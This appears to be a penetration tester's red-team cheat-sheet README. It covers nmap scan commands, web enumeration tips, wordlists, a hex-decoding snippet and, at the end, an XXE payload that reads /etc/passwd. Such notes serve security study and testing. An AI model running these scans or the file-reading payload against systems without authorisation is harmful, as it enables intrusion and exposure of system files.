 # Red Team

* gethead.sh - gets HEAD from some webservesr.
* getrobots.sh - get ```robots.txt``` from webservers.
* hexstr.py - converts hex-encoded str back to ascii

# Nmap
### Very quick ping sweep
```sudo nmap -n -sn -PE -T5 $ipRange```
### Slow (quickest?) stealth SYN scan, all ports, NSE scripts, version detection.
```sudo nmap -sC -sV -vv -n -p- -A -v -O -T5 $ip```

# Webapps

Don't forget to enumerate everything. Even the things you haven't thought of.

### dirb
* Check for cgi-bin/
* Search for different file extensions (is there a list of common file ext for brute forcing?)


# Wordlists
* [SecList - Really good wordlists](https://github.com/danielmiessler/SecLists)
* raft-large
* rockyou

# Python

### Dealing with hex encoded strings.

#### Convert hex to dec, 6c = 'l'
```dec = int("6c", 16)```

#### Print that in ascii
```print chr(dec)```

## XXE (XML External Entity)

Find some Rest/XML API endpoint of a webapp, using POST requests you can get it to RCE.
```xml
<?xml version="1.0"?>
<!DOCTYPE food [
<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>&xxe;</data>
```

